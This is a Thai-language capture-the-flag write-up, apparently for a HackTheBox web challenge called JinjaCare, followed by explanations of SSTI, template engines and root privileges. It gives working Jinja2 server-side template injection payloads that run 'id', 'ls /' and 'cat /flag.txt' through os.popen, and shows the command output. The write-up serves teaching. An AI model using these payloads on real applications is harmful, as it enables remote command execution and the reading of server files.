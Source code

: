 Hi, Can you speak Thai ?
Yes, I can speak Thai.
มา วันนี้เราจะมาทำข้อ JinjaCare หมวด Web ระดับ Very easy

Step 1 สร้างบัญชี
เขาจะให้ IP มา คือ 94.237.121.100:50594 จากนั้นเราก็เข้าไปที่ Sign In แล้วเลือก create a new account ในส่วนของข้อมูลที่ใช้สมัคร เราสามารถสมมติขึ้นมาเองได้เลย

Step 2 49
2.1 ไปที่ Personal Info ใส่วันเดือนปีเกิด ในส่วนนี้เราสามารถปลอมแปลงได้ 
2.2 ไปที่ Full Name เปลี่ยนข้อมูลจากชื่อเป็น {{7*7}} กด Save Changes
2.3 กลับไปที่ Dashboard กด Download Certificate
2.4 สังเกตตรง Name มันจะเป็น 49 ถ้าไม่ใช่ 49 ให้กลับไปดูตรง Full Name ในหน้า Personal Info ใหม่

Step 3 id
```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2---remote-command-execution
```
นี่คือลิงก์เกี่ยวกับ Server Side Template Injection

3.1 ไปที่ Personal Info และไปที่ Full Name เปลี่ยนข้อมูลจาก
```
{{7*7}}
```
เป็น
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
3.2 กลับไปที่ Dashboard กด Download Certificate
3.3 สังเกตตรง Name มันจะเปลี่ยนเป็น uid=0(root) gid=0(root) groups=0(root)

Step 4 ls
4.1 ไปที่ Personal Info และไปที่ Full Name เปลี่ยนข้อมูลจาก
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }} 
```
เป็น 
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls /').read() }}
```
4.2 สังเกตตรง Name มันจะเปลี่ยนเป็น app bin boot dev etc flag.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var

Step 5 cat flag.txt
5.1 ไปที่ Personal Info และไปที่ Full Name เปลี่ยนข้อมูลจาก
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls /').read() }}
```
เป็น
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}
```
5.2 สังเกตตรง Name มันจะเปลี่ยนเป็น HTB{XXXXX}
XXXXX ไม่ใช้ flag นะ คือปิดไว้ จะได้ทำเอง

อธิบาย SSTI
- SSTI หรือ Server-Side Template Injection คือช่องโหว่ที่เกิดขึ้นเมื่อแอปพลิเคชันนำข้อมูลจากผู้ใช้ไปใส่ลงใน template ของฝั่งเซิร์ฟเวอร์โดยตรง ทำให้ข้อความนั้นถูกตีความหรือประมวลผลเป็นโค้ดของ template engine แทนที่จะเป็น "ข้อมูล" แบบนิ่ง (literal) ผลคือผู้โจมตีสามารถทำให้ template engine ประมวลผลนิพจน์ที่เขาส่งมาผ่านอินพุต และนั่นอาจนำไปสู่การเปิดเผยข้อมูลภายใน (ข้อมูลความลับ) หรือ การรันโค้ดบนเซิร์ฟเวอร์ (RCE) ขึ้นอยู่กับความสามารถของ engine
- Template engine คือ ซอฟต์แวร์ที่ช่วยให้นักพัฒนาเว็บสามารถแยกส่วนของโค้ด HTML ออกจากข้อมูลแบบไดนามิกได้ โดยจะประมวลผลเทมเพลตและแทนที่ตัวแปรต่างๆ ด้วยข้อมูลจริงก่อนที่จะสร้างเป็น HTML สุดท้าย การทำเช่นนี้ช่วยเพิ่มความสามารถในการอ่าน, นำโค้ดกลับมาใช้ใหม่, และจัดการโค้ดให้ง่ายขึ้น
- uid=0(root) gid=0(root) groups=0(root) มันหมายความว่า กระบวนการหรือเชลล์นั้นกำลังรันด้วยสิทธิ์ของผู้ใช้ root (ผู้ดูแลระบบ)
  อธิบายแต่ละส่วนแบบชัด ๆ
  uid=0(root) — UID (user identifier) = 0 ซึ่งตามมาตรฐานคือ ผู้ใช้ root (superuser)
  gid=0(root) — GID (group identifier) = 0 ซึ่งคือกลุ่ม root
  groups=0(root) — รายชื่อกลุ่มที่ผู้ใช้นั้นเป็นสมาชิก (ในที่นี้เป็นเพียงกลุ่ม root)
  ความหมายเชิงปฏิบัติ
  ถ้าคุณเห็นสตริงนี้สำหรับเชลล์หรือ process แปลว่า process นั้นมีสิทธิ์เต็ม (privileged) สามารถอ่านหรือเขียนไฟล์สำคัญของระบบ, เปลี่ยนการตั้งค่าระบบ, ติดตั้ง/ลบแพ็กเกจ, เปลี่ยนสิทธิ์ผู้ใช้ ฯลฯ โดยสรุปคือสามารถทำอะไรก็ได้บนเครื่อง (administrator powers)
  เป็นสถานะที่อันตรายถ้ากำลังรันโปรแกรมไม่เชื่อถืออยู่ใน context นี้ เพราะจะทำให้มัลแวร์หรือคำสั่งผิดพลาดทำความเสียหายได้มาก
- ถ้าแอปเอา "{{7*7}}" เข้าไปและ engine ประมวลเป็น 49 แปลว่าระบบตีความข้อมูลเป็นโค้ด นี่ไม่ใช่การปฏิบัติต่อข้อมูลแบบนิ่งและเสี่ยงเกิด SSTI

ศัพท์น่าสงสัย
"ข้อมูล" แบบนิ่ง (literal) คือ ค่าข้อมูลที่ถูกกำหนดไว้อย่างชัดเจนและคงที่ในโค้ดหรือเทมเพลตนั้น ๆ โดยตรง ไม่ใช่ค่าที่ได้จากการคำนวณ ตัวแปร หรือการดึงข้อมูลจากแหล่งภายนอก
ลักษณะของข้อมูลแบบนิ่ง (Literal Data) ข้อมูลแบบนิ่งจะถูกตีความตามที่เห็น โดยไม่ต้องมีการประมวลผลหรือค้นหาเพิ่มเติม มักเป็นประเภทข้อมูลพื้นฐาน เช่น Literal String, Literal Number เป็นต้น
ตัวอย่าง:

ลิงก์ข้อมูลเพิ่มเติม
1. Template engine
```
https://medium.com/@itz.dhruv/comprehensive-guide-to-template-engines-in-node-js-with-express-c953a47dfa9d
```
2. ChatGPT และ Gemini สามารถนำข้อมูลไปให้มันขยายความได้
